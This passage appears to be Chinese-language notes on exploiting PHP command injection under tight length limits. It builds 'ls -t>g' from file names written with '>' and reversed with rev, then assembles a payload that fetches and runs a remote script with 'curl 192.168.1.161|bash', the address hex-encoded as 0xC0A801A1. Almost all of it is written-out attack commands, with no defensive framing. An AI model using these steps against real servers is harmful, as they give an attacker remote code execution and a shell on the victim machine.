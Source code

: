 **步骤一：**构建ls -t>g

会用到dir* rev所以构造应该是反序

```
#>g\>
#>ht-          //h是按照时间排序
#>sl
#>dir
```

![image-20240522161439039](PHP%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/image-20240522161540137.png)

```
#>g;
#>g\>
#>ht-
#>sl
#>dir
#*>v
#>rev
#*v>x
```

**步骤二：**构造反弹shell

```
curl 192.168.1.161|bash --->(进行16进制) curl 0xC0A801A1|bash
```

```
#>ash
#>b\
#>\|\
#>A1\
#>01\
#>A8\
#>C0\
#>0x\
#>\ \
#>rl\
#>cu\
#sh x
#sh g
```
